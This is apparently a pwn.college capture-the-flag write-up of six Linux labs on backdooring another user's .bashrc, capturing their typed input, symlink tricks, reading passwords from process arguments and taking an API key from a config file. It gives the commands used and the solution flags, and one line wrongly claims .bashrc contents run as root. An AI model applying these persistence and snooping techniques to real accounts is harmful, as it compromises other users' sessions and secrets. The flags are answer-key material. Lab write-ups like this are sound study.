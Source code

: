# Bashrc Backdoor

### Edit .bashrc


**Flag:** `pwn.college{cv8W_UYxYaPgaeK7AQx8kfMvlPn.0VMzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and added `cat /flag` to it. Then, `/challenge/victim` gave me the flag.

## What I learnt
`.bashrc` is the file run on the startup of the shell/terminal.

## References
No references used.



<br><br><br><br><br>



# Sniffing Input

### Make a bash script to get input


**Flag:** `pwn.college{s7pxa6UX26yxmgYRrzPaHKP8uI_.0VNzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and wrote
```
read input

if [ $input == "flag_checker" ]
then
        echo "Type the flag"
        read flag
        cat $flag
fi
```
Then I ran `/challenge/victim` to get the flag.

## What I learnt
Input into the terminal can be read by any program with the correct permissions.

## References
No references used.



<br><br><br><br><br>




# Overshared Directories

### Rewrite a file in an opened up directory


**Flag:** `pwn.college{gK-rwkpnIfR2Hxd2J_wvqRMDtOi.0FM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /home/zardus/.bashrc` and then `nano /home/zardus/.bashrc` and wrote the previous code into the file. Then, on running `/challenge/victim` I got the flag.

## What I learnt
Files can be accessed if in an opened up directory.

## References
No references used.



<br><br><br><br><br>



# Tricky Linking

### Make a symlink to a file to get the flag


**Flag:** `pwn.college{M_u0IvXnGpPUjB3lWAA8TnlhiIJ.0VM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /tmp/collab/evil-commands.txt` and then `ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt` to create the symbolic link. Ran `nano /home/zardus/.bashrc` and then ran `/challenge/victim` twice to get the flag.

## What I learnt
Anything in .bashrc is ran as the root and is therefore allowed. So making a sym link to .bashrc is a great idea.

## References
No references used.



<br><br><br><br><br>



# Sniffing Process Arguments

### 

**Flag:** `pwn.college{0iGLkNiAjRiYgwfLnA3yXGo5biF.0FOzEzNxwSN2EzNzEzW}`

## Process
Ran `ps aux` to see arguments passed to the automation script. Ran `su zardus` and entered the password when prompted to login as zardus and then ran `sudo cat /flag` to get the flag.

## What I learnt
`ps aux` does not show the whole output in a minimized window.

## References
No references used.



<br><br><br><br<br>




# Snooping on Configuratiins

### Read .bashrc to find a key

**Flag:** `pwn.college{Y2JpXi2Spf9JBu3AuZ6nl8k_kRF.0lM0EzNxwSN2EzNzEzW}`

## Process
Ran `cat /home/zardus/.bashrc` to read the api key and then ran `flag_getter --key sk-2640723931` to get the flag,

## What I learnt
.bashrc is world-readable by default.

## References
No references used.
